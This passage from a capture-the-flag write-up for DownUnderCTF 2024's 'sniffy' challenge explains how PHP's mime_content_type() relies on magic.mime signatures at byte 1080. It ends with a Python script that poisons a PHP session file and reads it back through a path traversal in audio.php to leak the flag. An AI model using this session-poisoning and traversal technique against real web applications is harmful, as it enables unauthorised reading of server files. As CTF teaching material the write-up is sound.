 Reading the article in [here](https://www.a2hosting.com/kb/developer-corner/php/using-php-sessions/) give me some hint that the session file located in `/tmp`.

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-21.png)

But how does `mime_content_type()` determine if a file is an audio file or not? Does it check the file signature? Looking into [this](https://www.php.net/manual/en/function.mime-content-type.php) documentation, it was mentioned that:

```
Returns the MIME content type for a file as determined by using information from the magic.mime file. 
```

As I looked for examples of `magic.mime`, I discovered [this](https://github.com/guillermomartinez/filemanager-laravel/blob/master/src/Pqb/FilemanagerLaravel/plugins/rsc/share/magic.mime) file. After some try and error, I found the following strings that we could use **(but are not limited to)** to identify our file as an audio file, as it checks the string from the `1080-byte` position.

```
M.K.
M!K!
FLT4
16CN
```

The following script can be use to get the flag.

```python
import requests

cookies = {"PHPSESSID":"hijack"}

for i in range(10):
    inject = "A"*i+"16CN"*270
    requests.get(f"https://web-sniffy-d9920bbcf9df.2024.ductf.dev/?theme={inject}",cookies=cookies)
    r = requests.get(f"https://web-sniffy-d9920bbcf9df.2024.ductf.dev/audio.php?f=../../../../../tmp/sess_hijack")
    if r.status_code != 403:
        print(r.text)
```
